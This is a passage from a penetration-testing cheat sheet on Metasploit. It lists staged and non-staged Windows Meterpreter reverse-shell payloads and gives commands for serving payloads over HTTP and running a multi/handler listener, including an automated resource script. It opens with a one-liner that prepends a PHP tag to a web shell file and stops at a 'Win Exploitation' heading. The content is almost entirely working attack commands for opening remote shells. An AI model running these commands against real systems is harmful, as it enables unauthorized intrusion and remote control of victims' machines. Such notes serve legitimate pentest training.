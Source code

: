 ```bash
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

#### **MSF Staged and Non Staged Payload**

```bash
# MSF STAGED Payload
windows/x64/meterpreter/reverse_tcp

# MSF NON-STAGED Payload
windows/x64/meterpreter_reverse_https
```

```bash
# Upload the payload on the target and try it with MSFconsole
cd Payloads
sudo python -m http.server 8080
msfconsole -q

use multi/handler
set payload <MSFVENOM_PAYLOAD>
set LHOST <MSFVENOM_LOCAL_HOST_IP>
set LPORT <MSFVENOM_LOCAL_PORT>
run
```

```bash
# Automation
ls -lah /usr/share/metasploit-framework/scripts/resource

# Create a handler resource
nano handler.rc
# Insert the following lines
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>
run
# Save it and exit

msfconsole -q -r handler.rc

# msfconsole
resource handler.rc

# Export inserted msfconsole commands into a resource script
makerc <FILE>.rc
```

### Win Exploitation

#### Default MSF Start
